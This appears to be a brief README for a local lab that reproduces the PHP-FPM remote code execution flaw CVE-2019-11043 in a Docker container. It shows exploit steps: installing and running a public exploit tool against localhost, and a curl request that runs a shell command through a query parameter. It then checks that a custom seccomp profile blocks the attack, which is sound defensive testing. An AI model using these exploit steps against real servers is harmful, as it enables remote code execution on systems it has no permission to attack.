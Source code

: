 
Container: nunolopes97/cve-2019-11043 <br>
Run: sudo docker run -it -p 8080:80 nunolopes97/cve-2019-11043 <br>

Exploit:
* Install: go get github.com/neex/phuip-fpizdam
* Run: ./phuip-fpizdam http://127.0.0.1:8080/script.php
* RCE: curl http://127.0.0.1:8080/script.php?a=ls
    

Use custom seccomp profile and check that exploit does not work. <br>
Run: sudo docker run -it --security-opt seccomp=./nginx.json -p 8080:80 nunolopes97/cve-2019-11043
